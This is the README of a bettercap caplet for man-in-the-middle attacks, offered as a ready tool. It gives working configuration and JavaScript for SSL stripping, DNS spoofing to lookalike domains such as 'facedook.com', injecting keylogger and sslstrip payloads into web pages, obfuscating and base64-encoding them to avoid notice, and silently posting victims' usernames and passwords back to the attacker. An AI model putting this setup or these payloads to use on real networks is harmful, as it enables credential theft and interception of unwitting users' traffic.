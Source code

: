 
### Caplet

```sh
set drule.log             /usr/local/share/bettercap/caplets/drule/ssl.log
set drule.ignore          *
set drule.targets         *.com, *.co.uk
set drule.replacements    *.corn,*.cc.uk
#set drule.blockscripts    facebook.com,*.facebook.com
set drule.obfuscate       false
set drule.encode          true
set drule.payloads        *:/usr/local/share/bettercap/caplets/drule/payloads/sslstrip.js,*:/usr/local/share/bettercap/caplets/drule/payloads/keylogger.js

set http.proxy.script  /usr/local/share/bettercap/caplets/drule/drule.js
set dns.spoof.domains  *.corn,*.cc.uk

http.proxy  on
dns.spoof   on
```

### Core payload

This module injects HTML & JS files with a payload that replaces targeted hostnames with spoofed ones, and communicates with bettercap, revealing all URLs that were discovered in the injected document.

When bettercap receives a callback with a new URL, it sends a HEAD request to learn whether the host in this URL sends HTTPS redirects, and keeps a log.

This is done so that bettercap can know whether it should MITM an SSL connection with a host, before the victim navigates to it.

### Custom payloads

You can also inject your own JavaScript payloads into HTML & JS files from specific hosts by assigning them to the `drule.payloads` variable.

Example:

```sh
drule.payloads *:drule/payloads/sslstrip.js,google.com:drule/payloads/google.js,*.google.com:drule/payloads/google.js
```

Once the payload is injected into a page, you can technically phish any data unless the client navigates to a URL that either has strict transport security rules enforced by their browser, or the URL was not stripped due to JavaScript security.

<a href="./payloads/sslstrip.js">**sslstrip.js**</a> is included, which strips the `s` from all `https` instances in `<a>`, `<form>` and `<iframe>` elements.

### Obfuscation

By setting `drule.obfuscate` to `true`, any instance in your payloads beginning with `obf_` will be obfuscated automatically.

Example: 

```js
function obf_function() {
  alert("Random variable: obf_whatever_follows")
}

obf_function()
```

Will be injected as:

```js
function jfIleNwmKoa() {
  alert("Random variable: AsjZnJW")
}

jfIleNwmKoa()
```

### Encoding

Payloads can be injected in HTML documents using base64 encoded data URLs.

To enable payload encoding, set `drule.encode` to `true`.

### Silent callbacks

You can write custom payloads that send data to bettercap without alerting the host.

Example of a silent callback:

```js
form.onsubmit = function() {
  req = new XMLHttpRequest()
  req.open("POST", "http://" + location.host + "/obf_path_callback?username=" + username + "&password=" + password)
  req.send()
}
```
<sup>Note: Every instance of `obf_path_callback` will be replaced with the callback path, every instance of `obf_path_whitelist` will be replaced with the whitelist path, and every instance of `obf_path_ssl_log` will be replaced with the SSL log path.</sup>

The code above will send a POST request that will be sniffed by bettercap, but not proxied. 

### Whitelisting callbacks

You can stop attacking a client on a certain host when you receive a request from that client for the whitelist path. The whitelist path will be inserted wherever you have `obf_path_whitelist` written in your payloads (`/` will not be written).

Example of whitelisting callbacks:

```js
// Whitelist multiple domains

form.onsubmit = function() {
  // Whitelist current hostname and phish credentials
  req = new XMLHttpRequest()
  req.open("POST", "http://" + location.hostname + "/obf_path_whitelist?username=" + username + "&password=" + password)
  req.send()

  // Whitelist facebook
  req = new XMLHttpRequest()
  req.open("POST", "http://facedook.com/obf_path_whitelist")
  req.send()

  // Whitelist facebook CDN
  req = new XMLHttpRequest()
  req.open("POST", "http://static.xx.fdcdn.net/obf_path_whitelist")
  req.send()

  // Whitelist redirect to facebook
  req = new XMLHttpRequest()
  req.open("POST", "http://fd.com/obf_path_whitelist")
  req.send()
}
```

When the bettercap proxy receives such a request, it will stop attacking clients on the requested (original and spoofed) host(s). If a spoofed location is requested that was whitelisted, the client will then be redirected to the intended location.

Note that if the hostnames you are whitelisting are HSTS preloaded, you have to send the whitelist callback to the spoofed hostnames, otherwise the browser will enforce a HTTPS connection, and bettercap will not be able to intercept the requests.

### Block scripts

In the <a href="./drule.cap">**caplet file**</a> you can block JavaScript on hosts by assigning them to the `drule.blockscripts` variable. _(wildcard allowed)_ 

### SSL log

If a host responds with a HTTPS redirect, the module saves this host in the SSL log, and bettercap will from then on spoof SSL connections for this host when possible.

### Hostname spoofing

In the <a href="./drule.cap">**caplet file**</a> you can assign comma separated domains to the `drule.targets` variable. _(wildcard allowed)_

For every hostname you assign to `drule.targets` you must assign a replacement domain to the `drule.replacements` variable.

Example:

```sh
set drule.targets       *.com, blockchain.info,*.blockchain.info
set drule.replacements  *.corn,blockchian.info,*.blockchian.info
```

You can try to make them as unnoticeable or obvious as you like, but your options are limited here.
